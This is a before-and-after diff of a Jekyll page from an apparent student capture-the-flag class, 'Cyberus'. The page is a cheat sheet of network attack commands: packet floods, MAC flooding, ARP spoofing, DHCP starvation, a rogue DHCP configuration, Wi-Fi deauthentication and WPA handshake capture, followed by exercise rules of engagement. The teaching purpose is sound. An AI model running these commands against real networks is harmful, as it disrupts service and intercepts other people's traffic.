

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/cyberus/cyberus.md, in a window 1280 px wide and 1400 px high, scrolled down 563 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update cyberus.md

````diff
--- a/classes/cyberus/cyberus.md
+++ b/classes/cyberus/cyberus.md
@@ -1,314 +1,453 @@
 ---
+
 layout: default
+
 title: Cyberus
+
 ---
+
 # Cyberus
+
 **Focus**: Network denial and disruption
 
 **Skill**: Disconnect or degrade hostile systems
 
 **Activity**: Identify attackers and remove them from the network
 
-<div style="text-align: center;">
-  <img src="{{ 'classes/cyberus/images/cyberus1.png' | relative_url }}" alt="Cyberus Logo" style="max-width: 80%; height: auto;">
-</div>
-
 ---
 
 # Denial of Service
+
 ## ICMP Flood
+
 Install tool (if needed):
-<div class="terminal"> sudo apt install -y hping3 </div>
+
+#### `sudo apt install -y hping3`
 
 Fast ping flood:
-<div class="terminal"> sudo ping -f <target_ip> </div>
+
+#### `sudo ping -f <target_ip>`
 
 Large packet flood:
-<div class="terminal"> sudo ping -f -s 65000 <target_ip> </div>
+
+#### `sudo ping -f -s 65000 <target_ip>`
 
 Using hping3:
-<div class="terminal"> sudo hping3 --flood --icmp <target_ip> </div>
+
+#### `sudo hping3 --flood --icmp <target_ip>`
 
 **Flag Notes**
+
 - `-f` → sends packets as fast as possible
+
 - `-s` → changes packet size
+
 - `--icmp` → chooses ICMP protocol
+
 - `--flood` → removes delay between packets
 
 Try changing:
+
 - packet size
+
 - protocol
+
 - target
 
 ---
 
 ## SYN Flood
+
 Flood a service port (example: SSH):
-<div class="terminal"> sudo hping3 -S --flood -p 22 <target_ip> </div>
+
+#### `sudo hping3 -S --flood -p 22 <target_ip>`
 
 More aggressive:
-<div class="terminal"> sudo hping3 -S --flood --rand-source -p 22 <target_ip> </div>
+
+#### `sudo hping3 -S --flood --rand-source -p 22 <target_ip>`
 
 **Flag Notes**
+
 - `-S` → sends SYN packets (start of TCP connection)
+
 - `-p` → chooses port
+
 - `--rand-source` → spoofs source IP
+
 - `--flood` → sends continuously
 
 Try changing:
+
 - port number
+
 - adding or removing spoofing
 
 ---
 
 ## UDP Flood
+
 Flood a UDP port:
-<div class="terminal"> sudo hping3 --flood --udp -p 53 <target_ip> </div>
+
+#### `sudo hping3 --flood --udp -p 53 <target_ip>`
 
 **Flag Notes**
+
 - `--udp` → uses UDP protocol
+
 - `-p` → target port
+
 - `--flood` → continuous send
 
 Try changing:
+
 - ports commonly used by services
 
 ---
 
 ## MAC Flood (Switch exhaustion)
+
 Install tool:
-<div class="terminal"> sudo apt install -y dsniff </div>
+
+#### `sudo apt install -y dsniff`
 
 Run:
-<div class="terminal"> sudo macof -i <interface> </div>
+
+#### `sudo macof -i `
 
 **Flag Notes**
+
 - `-i` → selects network interface
+
 - Tool generates large numbers of fake MAC addresses
 
 Try changing:
+
 - interface
 
 ---
 
 # ARP
+
 ## ARP Spoofing (Disconnect victim from gateway)
+
 Install tools:
-<div class="terminal"> sudo apt install -y dsniff ettercap bettercap </div>
+
+#### `sudo apt install -y dsniff ettercap bettercap`
 
 Find gateway:
-<div class="terminal"> ip r </div>
+
+#### `ip r`
 
 Terminal 1:
-<div class="terminal"> sudo arpspoof -i <interface> -t <target_ip> <gateway_ip> </div>
+
+#### `sudo arpspoof -i -t <target_ip> <gateway_ip>`
 
 Terminal 2:
-<div class="terminal"> sudo arpspoof -i <interface> -t <gateway_ip> <target_ip> </div>
+
+#### `sudo arpspoof -i -t <gateway_ip> <target_ip>`
 
 **Flag Notes**
+
 - `-i` → interface used
+
 - `-t` → target being poisoned
+
 - Last IP → system you are impersonating
 
 What is happening:
+
 1. Tell victim you are gateway
+
 2. Tell gateway you are victim
+
 3. Traffic flows through attacker
 
 ---
 
 ## Ettercap ARP Poisoning (GUI)
+
 Start:
-<div class="terminal"> sudo ettercap -G </div>
+
+#### `sudo ettercap -G`
 
 Steps:
+
 1. Select interface
+
 2. Scan for hosts
+
 3. Add target 1 = victim
+
 4. Add target 2 = gateway
+
 5. MitM → ARP poisoning → Start
 
 **What this does**
+
 - Automates the same steps as arpspoof
+
 - Adds packet inspection capability
 
 ---
 
 ## Gratuitous ARP Flood
+
 Using nemesis:
-<div class="terminal"> sudo apt install -y nemesis </div>
-<div class="terminal"> sudo nemesis arp -v -d <target_ip> -S <fake_ip> -h <fake_mac> </div>
+
+#### `sudo apt install -y nemesis`
+
+#### `sudo nemesis arp -v -d <target_ip> -S <fake_ip> -h <fake_mac>`
 
 **Flag Notes**
+
 - `-d` → destination
+
 - `-S` → spoofed sender IP
+
 - `-h` → spoofed MAC
+
 - `-v` → verbose output
 
 Try changing:
+
 - spoofed values
 
 ---
 
 # DHCP
+
 ## DHCP Starvation (Consume leases)
+
 Install tool:
-<div class="terminal"> sudo apt install -y yersinia </div>
+
+#### `sudo apt install -y yersinia`
 
 Run interactive mode:
-<div class="terminal"> sudo yersinia -G </div>
+
+#### `sudo yersinia -G`
 
 Steps:
+
 1. Select DHCP
+
 2. Launch starvation attack
 
 **What is happening**
+
 - Many fake clients request addresses
+
 - Pool runs out
+
 - Real clients cannot obtain IP
 
 ---
 
 ## Rogue DHCP Server (dnsmasq)
+
 Install:
-<div class="terminal"> sudo apt install -y dnsmasq </div>
+
+#### `sudo apt install -y dnsmasq`
 
 Example minimal config:
+
 Edit:
-<div class="terminal"> sudo nano /etc/dnsmasq.conf </div>
+
+#### `sudo nano /etc/dnsmasq.conf`
 
 Add:
+
+```
+
 interface=
+
 dhcp-range=192.168.1.50,192.168.1.150,12h
+
 dhcp-option=3,<fake_gateway_ip>
+
 dhcp-option=6,<fake_dns_ip>
 
+```
 
 Restart:
-<div class="terminal"> sudo systemctl restart dnsmasq </div>
+
+#### `sudo systemctl restart dnsmasq`
 
 **What the options mean**
+
 - `dhcp-range` → addresses handed out
+
 - `option 3` → gateway given to clients
+
 - `option 6` → DNS server given to clients
 
 ---
 
 # Deauthentication
+
 ## Monitor wireless interfaces
-<div class="terminal"> iwconfig </div>
+
+#### `iwconfig`
 
 Enable monitor mode:
-<div class="terminal"> sudo airmon-ng start wlan0 </div>
+
+#### `sudo airmon-ng start wlan0`
 
 **What this does**
+
 - Puts adapter into packet capture mode
 
 ---
 
 ## Find targets
-<div class="terminal"> sudo airodump-ng wlan0mon </div>
+
+#### `sudo airodump-ng wlan0mon`
 
 Record:
+
 - BSSID
+
 - Channel
+
 - Client MAC
 
 **What to look for**
+
 - Which AP is active
+
 - Which clients are connected
 
 ---
 
 ## Deauth a client
-<div class="terminal"> sudo aireplay-ng --deauth 20 -a <bssid> -c <client_mac> wlan0mon </div>
+
+#### `sudo aireplay-ng --deauth 20 -a -c <client_mac> wlan0mon`
 
 Deauth entire AP:
-<div class="terminal"> sudo aireplay-ng --deauth 50 -a <bssid> wlan0mon </div>
+
+#### `sudo aireplay-ng --deauth 50 -a wlan0mon`
 
 **Flag Notes**
+
 - `--deauth` → number of packets sent
+
 - `-a` → access point
+
 - `-c` → client
 
 Try changing:
+
 - packet count
 
 ---
 
 ## Alternative: mdk4
+
 Install:
-<div class="terminal"> sudo apt install -y mdk4 </div>
+
+#### `sudo apt install -y mdk4`
 
 Run:
-<div class="terminal"> sudo mdk4 wlan0mon d -B <bssid> </div>
+
+#### `sudo mdk4 wlan0mon d -B `
 
 **Flag Notes**
+
 - `d` → deauth mode
+
 - `-B` → target AP
 
 ---
 
 # Deauth && Handshake Capture
+
 ## Capture handshake
+
 Start capture:
-<div class="terminal"> sudo airodump-ng -c <channel> --bssid <bssid> -w capture wlan0mon </div>
+
+#### `sudo airodump-ng -c --bssid -w capture wlan0mon`
 
 Leave running.
 
 **Flag Notes**
+
 - `-c` → channel
+
 - `--bssid` → target AP
+
 - `-w` → output file
 
 ---
 
 ## Force reconnect to capture handshake
-<div class="terminal"> sudo aireplay-ng --deauth 10 -a <bssid> wlan0mon </div>
+
+#### `sudo aireplay-ng --deauth 10 -a wlan0mon`
 
 Watch for:
-WPA handshake: <bssid>
+
+WPA handshake:
 
 ---
 
 ## Verify capture
+
 Files created:
+
+```
+
 capture.cap
+
 capture.csv
 
+```
+
 Open:
-<div class="terminal"> wireshark capture.cap </div>
+
+#### `wireshark capture.cap`
 
 **What you are verifying**
+
 - Handshake packets present
+
 - Correct network
 
 ---
 
 # Quick Recon Commands
+
 Find interface:
-<div class="terminal"> ip addr </div>
+
+#### `ip addr`
 
 Find gateway:
-<div class="terminal"> ip r </div>
+
+#### `ip r`
 
 Find active traffic:
-<div class="terminal"> sudo iftop -i <interface> </div>
+
+#### `sudo iftop -i `
 
 Watch packets:
-<div class="terminal"> sudo tcpdump -i <interface> </div>
+
+#### `sudo tcpdump -i `
 
 **What these tell you**
+
 - Interfaces
+
 - Routes
+
 - Traffic patterns
+
 - Packet details
 
 ---
 
 # Rules of Engagement
+
 - Only attack assigned targets
+
 - Stop attacks when instructed
+
 - Restore systems after exercise
 
 ---
````
